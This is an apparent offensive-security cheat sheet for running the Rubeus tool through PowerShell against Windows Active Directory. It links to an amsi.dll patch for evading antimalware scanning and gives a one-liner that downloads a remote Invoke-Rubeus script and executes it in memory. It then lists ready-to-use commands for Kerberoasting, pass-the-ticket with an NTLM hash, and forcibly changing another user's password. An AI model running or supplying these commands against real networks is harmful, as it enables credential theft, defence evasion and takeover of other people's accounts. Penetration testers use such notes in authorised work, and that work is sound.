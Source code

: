 # Reference
- [Rubeus](https://github.com/GhostPack/Rubeus)

# Add to PowerShell
- [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/okazymyrov/piki/master/Invoke-Rubeus.ps1')
```

# Commands

## Kerberoast for the current domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:hashes.<domain>.txt /format:hashcat'
```

## Kerberoast for a trusted domain
```powershell
Invoke-Rubeus 'kerberoast /outfile:hashes.<domain>.txt /format:hashcat /domain:<trusted domain> /dc:<trusted DC>'
```

## Reqest and pass the ticket to the current session
```powershell
Invoke-Rubeus 'asktgt /user:<user> /rc4:<hash> /domain:<domain> /ptt'
```

## Change password for another user using kerberos ticket
```powershell
Invoke-Rubeus 'asktgt /user:<user_can_change_passwords> /changepw /rc4:<hash> /domain:<domain> /outfile:<user_can_change_passwords>.ticket'
Invoke-Rubeus 'changepw /ticket:<user_can_change_passwords>.ticket /new:<new_password> /targetuser:<domain.local>\<user_to_change_password> /dc:<dc>.<domain>.local'
```
